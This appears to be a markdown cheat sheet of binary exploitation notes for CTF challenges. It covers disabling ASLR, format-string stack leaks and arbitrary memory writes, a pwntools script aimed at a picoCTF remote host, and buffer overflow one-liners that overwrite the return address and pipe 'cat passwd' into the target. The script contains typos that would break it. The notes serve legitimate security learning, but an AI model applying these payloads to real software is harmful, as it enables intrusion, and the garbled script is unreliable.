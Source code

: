 ```yaml
---
title: Pwn
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

- Disable ASLR :
```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

- Enable it again, run
```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
## Format string

- Leak address : 
```sh
for i in $(seq 1 20); do ./ch5 %$i\$x;printf "\n";done
#or
./ch14 "$(python3 -c "print('%08x'+'_%08X'*30)")"
```

- Show the content on the stack  : 
```sh
for i in $(seq 1 20); do ./ch5 %$i\$x |rax2 -s |tr -cd "[:print:]" |rev;printf "\n";done
```

- See your input on the stack :
```sh
 ./ch14 AAAA$(python -c 'print "%08x."*20')
 ./ch35 $(python3 -c"print('\x41\x41\x41\x41'+'\x8c\x3f\x5e\xd1'+'%x'+'_%08x'* 300)")
#python -c 'print "aa" + "\x08\x04\xc0\x28"[::-1]'
```

- Show the hex value of the given arguments:
```sh
./ch14 'AAAA.%9$x
```
- Write memory : 
```sh
./ch14 $(python2 -c "print '\xb8\xfa\xff\xbf' + '\xba\xfa\xff\xbf' +'%48871x'+'%9\$hn'+'%8126x'+'%10\$hn'")
#We add an \ because of Bash...
```

- Automate Write memory :
```sh
from pwn import **

context.binary = ELF('./vuln')

p = remote('rhea.picoctf.net', 53865)

# Function to send payload to target
def exec_fmt(payload): 
	p = remote('rhea.picoctf.net', 53865)
	p.sendline(payoad)
	return p.recvall()

autofmt = FmtStr(exec_fmt) # Create exploit automater
offset = autofmt.offset

# Key-value pairs for addresses and their final value after exploit
writes = {
	0x404060: 0x67616c66
}payload = fmtstr_payload(offset, writes)

flag = p.recvall()

print(flag)
print(payload)
```
## Buffer Overflow 

- Find the Offset :

```sh
pwn cyclic 150
pwn cyclic -l naafoaafp #bytes

gdb-peda$ pattern_create 200
gdb-peda$ pattern_offset A7AAMAAiA
```

`In 32 bits take the bytes that overflowed RIP ` 
`In 64 bits Grab the first 4 bytes of RSP`

- Overflow RIP ( 32bits ) :

```sh
(python3 -c "print('\x41' * $i + '\x56\x11\x40\x00\x00\x00\x00\x00')";echo "cat passwd" ; cat) | ./ch35 
```

- Overflow RIP ( 64bits ) :

```sh
(python3 -c "print('\x41' * $i + '\x41\x41\x41\x41')"; cat) | ./ch35 
```

- Brute Force Offset : 
```sh
for i in $(seq 250 300); do

(python3 -c "print('\x41' * $i + '\x56\x11\x40\x00\x00\x00\x00\x00')";echo "cat passwd" ; cat) | ./ch35; 

done
```

- Send payloads :
```sh
./chall "$(python3 -c "print('\xd8\xfa\xff\xbf'+'\x25\x6e')")"
./chall "$(echo -ne '\xd8\xfa\xff\xbf\x25\x6e')"
python3 -c "print('\x41' * $i + '\x56\x11\x40\x00\x00\x00\x00\x00')" |./chall
```

Good Resource : 
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow